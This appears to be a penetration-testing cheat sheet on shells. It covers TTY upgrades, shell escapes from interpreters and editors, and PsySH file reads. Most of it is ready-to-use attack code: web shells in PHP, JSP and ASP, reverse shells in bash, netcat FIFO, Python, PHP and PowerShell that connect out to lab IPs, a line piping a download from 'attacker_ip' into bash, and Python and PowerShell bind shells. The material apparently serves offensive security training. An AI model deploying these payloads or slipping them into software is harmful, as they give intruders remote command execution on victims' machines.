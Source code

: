 ```yaml
---
description: and Shells
icon: book-skull
---
```


# Shells/TTYs

<details>

<summary><mark style="color:orange;"><strong><code>TTY</code></strong></mark> <mark style="color:purple;"><strong>-</strong></mark> <mark style="color:purple;"><strong><code>Teletypewriters</code></strong></mark> </summary>

{% hint style="info" %}
<mark style="color:purple;">**Full**</mark> <mark style="color:orange;">**`TTY`**</mark>

#### <mark style="color:orange;">`BASH`</mark>

1. <mark style="color:red;">**`python3 -c 'import pty; pty.spawn("/bin/bash")'`**</mark>
2. &#x20;<kbd><mark style="color:red;">**CTRL+Z**<mark style="color:red;"></kbd>
3. <mark style="color:red;">**`stty raw -echo; fg; ls; export SHELL=/bin/bash; export TERM=screen; stty rows 38 columns 116; reset;`**</mark>

#### <mark style="color:orange;">**`ZSH`**</mark>

1. <mark style="color:red;">**`python3 -c 'import pty; pty.spawn("/bin/bash")'`**</mark>
2. <kbd><mark style="color:red;">**CTRL+Z**<mark style="color:red;"></kbd>
3. <mark style="color:red;">**`stty raw -echo; fg %1; export SHELL=/bin/bash; export TERM=screen; stty rows 38 columns 116; reset;`**</mark>
{% endhint %}

{% hint style="info" %}


#### <mark style="color:purple;">`Clear Terminal`</mark>

<mark style="color:purple;">Set the environmental variable from the terminal to</mark> <mark style="color:orange;">**`xterm`**</mark><mark style="color:purple;">:</mark>

{% code title="Change the env to xterm" %}
```editorconfig
export TERM=xterm
```
{% endcode %}
{% endhint %}

{% hint style="info" %}


#### <mark style="color:purple;">`Terminal Size`</mark>

<mark style="color:red;">**`Sometimes you may need to adjust your terminal size to the needs of the situation`**</mark>

{% code title="Check your terminal size" %}
```
stty size
```
{% endcode %}

{% code title="Now, change it in the target" overflow="wrap" %}
```sh
stty rows <NUMBER> columns <NUMBER>
```
{% endcode %}
{% endhint %}

{% hint style="info" %}


#### <mark style="color:purple;">`Use arrow-keys`</mark>

{% code title="Just use it" %}
```sh
bash
```
{% endcode %}

{% code title="Turn history on" %}
```sh
set -o history
```
{% endcode %}

* <mark style="color:purple;">In the</mark> <mark style="color:orange;">**`.bashrc`**</mark> <mark style="color:purple;">file, make sure</mark> <mark style="color:orange;">**`HISTSIZE`**</mark> <mark style="color:purple;">is not set to</mark> <mark style="color:orange;">**`0`**</mark><mark style="color:purple;">:</mark>

```editorconfig
HISTSIZE=1000
HISTFILESIZE=1000
```
{% endhint %}

{% hint style="info" %}
<mark style="color:orange;">**`rlwrap`**</mark> <mark style="color:purple;">**enables line editing and history:**</mark>

{% code title="Listener example" overflow="wrap" %}
```sh
rlwrap nc -lvnp <port>
```
{% endcode %}

{% code title="Connection example" overflow="wrap" %}
```sh
rlwrap nc 10.10.10.131 6200
```
{% endcode %}
{% endhint %}

</details>

<details>

<summary><mark style="color:red;"><strong><code>Spawning Shells</code></strong></mark></summary>

{% hint style="info" %}
<mark style="color:purple;">The</mark> <mark style="color:orange;">**`pty`**</mark> <mark style="color:purple;">module in</mark> <mark style="color:green;">**`Python`**</mark> <mark style="color:purple;">allows you to spawn a new process in a pseudo-terminal, effectively creating an interactive shell:</mark>

```sh
python3 -c 'import pty; pty.spawn("/bin/sh")' 
```
{% endhint %}

{% hint style="info" %}
<mark style="color:purple;">The</mark> <mark style="color:orange;">**`script`**</mark> <mark style="color:purple;">command starts a shell session and records the session to a file.</mark> <mark style="color:orange;">**`/dev/null`**</mark> <mark style="color:purple;">is specified as the file where the session is "recorded", but since it's</mark> <mark style="color:orange;">**`/dev/null`**</mark><mark style="color:purple;">, no logging actually happens:</mark>

```sh
script -qc /bin/bash /dev/null
```
{% endhint %}

{% hint style="info" %}
<mark style="color:purple;">Also is possible to use</mark> <mark style="color:orange;">**`echo`**</mark> <mark style="color:purple;">to pass</mark>  <mark style="color:green;">**`Python`**</mark> <mark style="color:orange;">**`os.system('/bin/bash')`**</mark> <mark style="color:purple;">to the Python interpreter:</mark>

```sh
echo os.system('/bin/bash') 
```
{% endhint %}

{% hint style="info" %}
<mark style="color:purple;">Spawn an interactive shell directly from the terminal:</mark>

```bash
/bin/sh -i
```
{% endhint %}

{% hint style="info" %}
<mark style="color:purple;">The command</mark> <mark style="color:orange;">**`exec "/bin/sh"`**</mark> <mark style="color:purple;">replaces the running</mark> <mark style="color:orange;">**`Perl`**</mark> <mark style="color:purple;">process with a new</mark> <mark style="color:orange;">**`/bin/sh`**</mark> <mark style="color:purple;">shell:</mark>

```sh
perl -e 'exec "/bin/sh";'
```

{% code title="Spawn the shell directly" %}
```bash
perl: exec "/bin/sh";
```
{% endcode %}
{% endhint %}

{% hint style="info" %}
<mark style="color:red;">**`Ruby`**</mark><mark style="color:purple;">'s</mark> <mark style="color:orange;">**`exec`**</mark> <mark style="color:purple;">function, like in Perl, replaces the current process with a new process—in this case,</mark> <mark style="color:orange;">**`/bin/sh`**</mark><mark style="color:purple;">:</mark>

```sh
ruby: exec "/bin/sh"
```
{% endhint %}

{% hint style="info" %}
<mark style="color:purple;">Runs a shell command from</mark> <mark style="color:orange;">**`Lua`**</mark><mark style="color:purple;">, but unlike in</mark> <mark style="color:orange;">**`Perl`**</mark> <mark style="color:purple;">or</mark> <mark style="color:red;">**`Ruby`**</mark><mark style="color:purple;">, this does not replace the current process. It runs</mark> <mark style="color:orange;">**`/bin/sh`**</mark> <mark style="color:purple;">as a child process:</mark>

```bash
lua: os.execute('/bin/sh')
```
{% endhint %}

{% hint style="info" %}
<mark style="color:purple;">Replaces the current</mark> <mark style="color:red;">**`Ruby`**</mark> <mark style="color:purple;">interpreter (IRB) with the shell:</mark>

```bash
exec "/bin/sh";
```
{% endhint %}

{% hint style="info" %}
<mark style="color:purple;">Used to execute an external shell command:</mark>

```sh
:!bash
```
{% endhint %}

{% hint style="info" %}
<mark style="color:purple;">Changes the default shell used by vim's</mark> <mark style="color:orange;">**`:!`**</mark> <mark style="color:purple;">command:</mark>

```bash
:set shell=/bin/bash:shell
```
{% endhint %}

{% hint style="info" %}
<mark style="color:purple;">Spawn a shell from within the</mark> <mark style="color:orange;">**`nmap`**</mark> <mark style="color:purple;">interface, enabling the execution of additional shell commands while scanning:</mark>

```sh
!sh
```
{% endhint %}



</details>

<details>

<summary><mark style="color:orange;"><strong><code>PSY</code></strong></mark></summary>

<mark style="color:orange;">**`PSY`**</mark> <mark style="color:purple;">Shell is an interactive</mark> <mark style="color:orange;">**`PHP REPL (Read-Eval-Print Loop)`**</mark> <mark style="color:purple;">used normally for debugging.</mark>

{% code title="Print the working directory" %}
```php
getcwd()
```
{% endcode %}

{% code title="Print the current user" %}
```php
get_current_user()
```
{% endcode %}

{% code title="Print system info" %}
```php
phpinfo()
```
{% endcode %}

{% code title="Print contents from directory" %}
```php
scandir("/home")
```
{% endcode %}

{% code title="Print content from file" overflow="wrap" %}
```php
file_get_contents("/etc/os-release")
```
{% endcode %}

</details>

<details>

<summary><mark style="color:red;"><strong><code>Web Shells</code></strong></mark></summary>

{% hint style="info" %}
<mark style="color:red;">**`Save the shells`**</mark>

{% code overflow="wrap" %}
```sh
echo '<?php system($_REQUEST['cmd']); ?>' > cmd.php
```
{% endcode %}
{% endhint %}

{% code title="PHP Shell" overflow="wrap" %}
```php
<?php system($_REQUEST['cmd']); ?>
```
{% endcode %}

{% code title="JSP - Java Server Pages" overflow="wrap" %}
```sh
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```
{% endcode %}

{% code title="ASP - Active Server Pages" %}
```aspnet
<% eval request("cmd") %>
```
{% endcode %}

</details>

<details>

<summary><mark style="color:orange;"><strong><code>BASH</code></strong></mark> <mark style="color:red;"><strong><code>Reverse Shells</code></strong></mark></summary>

{% code title="Standard" overflow="wrap" %}
```sh
bash -i >& /dev/tcp/10.10.14.18/1337 0>&1
```
{% endcode %}

{% code title="URL" overflow="wrap" %}
```url
bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.14/9001+0>%261'
```
{% endcode %}

{% hint style="info" %}
<mark style="color:orange;">**`FIFO`**</mark>

{% code overflow="wrap" %}
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f
```
{% endcode %}

{% code title="URL Encoded" overflow="wrap" %}
```url
rm%20/tmp/f%3B%20mkfifo%20/tmp/f%3B%20cat%20/tmp/f%20%7C%20/bin/sh%20-i%202%3E%261%20%7C%20nc%2010.10.16.10%204444%20%3E%20/tmp/f
```
{% endcode %}
{% endhint %}

{% code title="Run it in the background" %}
```sh
nohup bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1" &
```
{% endcode %}

</details>

<details>

<summary><mark style="color:green;"><strong><code>Python</code></strong></mark> <mark style="color:red;"><strong><code>Reverse Shells</code></strong></mark></summary>

{% hint style="info" %}
<mark style="color:orange;">**`PTY`**</mark>

{% code title="One-liner IPv4" overflow="wrap" %}
```sh
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.6",4444));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/bash")'
```
{% endcode %}

{% code title="Save in a file IPv4" overflow="wrap" %}
```sh
echo 'import pty
import socket
import os

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("10.10.16.6", 4444))
[os.dup2(s.fileno(), fd) for fd in (0, 1, 2)]
pty.spawn("/bin/bash")
s.close()' > shell.py
```
{% endcode %}
{% endhint %}

{% hint style="info" %}
<mark style="color:orange;">**`subprocess`**</mark>

{% code title="One-liner IPv4 " overflow="wrap" %}
```sh
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.157",1235));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
{% endcode %}

{% code title="Save it in a file IPv4" overflow="wrap" %}
```sh
echo 'import socket, subprocess, os

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("10.10.14.157", 1235))
[os.dup2(s.fileno(), fd) for fd in (0, 1, 2)]
subprocess.call(["/bin/sh", "-i"])
s.close()' > shell.py
```
{% endcode %}
{% endhint %}

{% code title="UDP Reverse shell" overflow="wrap" %}
```python
import os
os.popen("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc -u 10.10.16.10 4444 >/tmp/f &").read()
```
{% endcode %}

</details>

<details>

<summary><mark style="color:orange;"><strong><code>PHP</code></strong></mark> <mark style="color:red;"><strong><code>Reverse shell</code></strong></mark></summary>

{% code title="Direct reverse shell" overflow="wrap" %}
```php
<?php system("bash -c 'bash -i >& /dev/tcp/10.10.14.17/4444 0>&1'");?>
```
{% endcode %}

{% code title="Remote reverse shell" overflow="wrap" %}
```php
<?php system("curl http://attacker_ip/reverseshell | bash"); ?>
```
{% endcode %}

{% code title="FIFO " overflow="wrap" %}
```php
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP> <Port> >/tmp/f"); ?>
```
{% endcode %}

</details>

<details>

<summary><mark style="color:orange;"><strong><code>Powershell</code></strong></mark> <mark style="color:red;"><strong><code>Reverse shell</code></strong></mark></summary>

{% code title="" overflow="wrap" %}
```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1234);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"
```
{% endcode %}

</details>

<details>

<summary><mark style="color:red;"><strong><code>Bind Shells</code></strong></mark></summary>

{% hint style="info" %}
* <mark style="color:purple;">First, find ports were</mark> <mark style="color:orange;">**`inbound`**</mark> <mark style="color:purple;">connections are allowed:</mark>

{% code title="Linux" overflow="wrap" lineNumbers="true" %}
```sh
ss -tuln
netstat -tuln
lsof -i -n
```
{% endcode %}

{% code title="" overflow="wrap" lineNumbers="true" %}
```sh
netstat -ano | findstr "LISTEN"
Get-Process | Where-Object {$_.Id -eq (Get-NetTCPConnection | Where-Object {$_.State -eq 'Listen'}).OwningProcess}
```
{% endcode %}
{% endhint %}

{% hint style="info" %}
<mark style="color:red;">**`Check the firewall rules in Windows:`**</mark>

```powershell
netsh advfirewall firewall show rule name=all
```
{% endhint %}

{% code title="Python Shell" overflow="wrap" %}
```sh
python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
```
{% endcode %}

{% code title="Powershell" overflow="wrap" %}
```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();
```
{% endcode %}

</details>
